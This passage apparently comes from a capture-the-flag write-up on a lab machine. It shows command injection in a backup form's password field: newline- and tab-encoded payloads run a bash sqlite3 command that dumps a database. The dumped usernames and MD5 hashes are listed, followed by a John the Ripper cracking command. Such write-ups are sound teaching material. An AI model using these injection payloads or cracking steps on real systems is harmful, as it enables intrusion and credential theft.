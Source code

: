 Let's send it to **Repeater**. The task is to get a dump of the `nocturnal_database.db` database. That is, we need the following command:
```bash
sqlite3 /var/www/nocturnal_database/nocturnal_database.db .dump
```
However, to execute it in `$command`, you need to use `bash -c`, so the final command will be as follows:
```bash
bash -c “sqlite3 /var/www/nocturnal_database/nocturnal_database.db .dump”
```
Since we are embedding this command in a query, spaces must be replaced with `%09`, and line breaks with `%0A`.
**`%09`**: This is the URL encoding for the **tab** character. In the command, it replaces spaces.
**`%0A`**: This is the URL encoding for the **line feed** character. It means the end of the command (pressing Enter).
The request consists of two parts: `password` and `backup`. Since it is important for us to execute the command after `password`, we simply transfer the line after the password itself with the `%0A` character. On the new line, we write the main command for the database dump. After that, we transfer the line again. The result is as follows:
```http
password=test%0A
bash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A
&backup=
```
Sending a request and seeing the DB dump

![image](images/20250730164324.png)

```bash
admin:d725aeba143f575736b07e045d8ceebb
amanda:df8b20aa0c935023f99ea58358fb63c4
tobias:55c82b1ccd55ab219b3b109b07d5061d
kavi:f38c de1654b39fea2bd4f72f1ae4cdda
e0Al5:101ad4543a96a7fd84908fd0d802e7db
naggar:c857b738481bd8f43aa2ab7a4ff3812c
test:098f6bcd4621d373cade4e832627b4f6
```
We'll break it hashes:
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes
```
